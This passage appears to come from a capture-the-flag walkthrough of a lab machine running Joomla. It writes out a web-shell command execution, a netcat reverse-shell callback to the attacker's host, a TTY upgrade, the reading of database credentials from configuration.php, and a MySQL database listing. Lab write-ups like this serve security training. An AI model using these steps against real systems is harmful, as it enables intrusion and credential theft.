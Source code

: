 We verify if the command "id" is executed correctly.

```bash
root@kali:~$ curl http://192.168.179.165/joomla/templates/beez3/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To get a shell, first we need to start a netcat listener and run the following curl request.

```bash
root@kali:~$ curl http://192.168.179.165/joomla/templates/beez3/error.php?cmd=$(php -r "echo urlencode('nc 192.168.179.1 443 -e /bin/bash');")
```

To upgrade to a full TTY shell, follow the steps below.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.165] 35862
script -qc /bin/bash /dev/null
www-data@glasgowsmile:/var/www/html/joomla/templates/beez3$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

<www/html/joomla/templates/beez3$ export TERM=xterm-256color                 
 164data@glasgowsmile:/var/www/html/joomla/templates/beez3$ stty rows 39 columns 
www-data@glasgowsmile:/var/www/html/joomla/templates/beez3$
```

Listing the joomla creds to connect to the MySQL database.

```bash
www-data@glasgowsmile:/var/www/html/joomla$ cat configuration.php
...
public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
        public $dbprefix = 'jnqcu_';
        public $live_site = '';
        public $secret = 'fNRyp6KO51013435';
...
```

Listing the MySQL databases.

```bash
www-data@glasgowsmile:/var/www/html/joomla$ mysql -u joomla -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 3663
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
```
